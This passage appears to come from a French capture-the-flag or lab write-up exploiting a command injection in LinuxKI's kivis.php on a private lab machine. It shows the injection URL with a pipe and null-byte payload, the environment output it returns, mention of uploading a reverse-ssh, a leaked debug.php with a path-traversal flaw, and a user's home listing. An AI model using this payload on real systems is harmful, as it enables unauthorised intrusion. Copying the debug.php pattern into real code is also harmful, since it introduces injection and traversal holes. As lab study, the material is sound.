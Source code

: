 J'ai joué un peu avec le paramètre vulnérable et finalement il semblait mal digérer le point virgule :

`http://192.168.56.42/linuxki/experimental/vis/kivis.php?type=kitrace&pid=15|env;`

```
env: invalid option -- 't'
Try 'env --help' for more information.
```

Avec une syntaxe différente, en utilisant un pipe et en échappant la suite avec un octet nul j'obtient l'output que j'espère :

`http://192.168.56.42/linuxki/experimental/vis/kivis.php?type=kitrace&pid=15|env%00|`

```bash
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
JOURNAL_STREAM=9:20343
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
INVOCATION_ID=0f681eaa0c72462694ecd42c2ab56c27
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/var/www/html/linuxki/experimental/vis
```

Une fois un reverse-ssh uploadé et exécuté je commence à fureter sur le système. Je récupére par exemple le contenu du `debug.php` croisé plus tôt

```php
<!-- T-56819 - added file parameter for easier page navigation with linuxki - chris -->

<?php

if (isset($_GET['environ'])){
    echo phpinfo();
}

if (isset($_GET['file'])){
    echo file_get_contents("linuxki/experimental/vis/" . $_GET['file'] . ".php");
}


echo shell_exec("/opt/linuxki/runki -f");

?>
```

Effectivement il y avait bien un paramètre `file` mais avec un prepend + append sans compter qu'il s'agit uniquement un directory traversal et non d'une inclusion.

Un utilisateur nommé *chris* est présent sur le système et a quelques fichiers lisibles :

```bash
www-data@ki:/home/chris$ ls -al
total 44
drwxr-xr-x 4 chris chris 4096 Dec 21  2020 .
drwxr-xr-x 3 root  root  4096 Dec 18  2020 ..
-rw------- 1 chris chris  596 Dec 19  2020 .bash_history
-rw-r--r-- 1 chris chris  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 chris chris 3771 Feb 25  2020 .bashrc
drwx------ 2 chris chris 4096 Dec 18  2020 .cache
drwxrwxr-x 3 chris chris 4096 Dec 19  2020 .local
-rw-r--r-- 1 chris chris  807 Feb 25  2020 .profile
-rw-r--r-- 1 chris chris 1410 Dec 21  2020 module_prep.log
-rw-rw-r-- 1 chris chris  373 Dec 21  2020 reminder.txt
```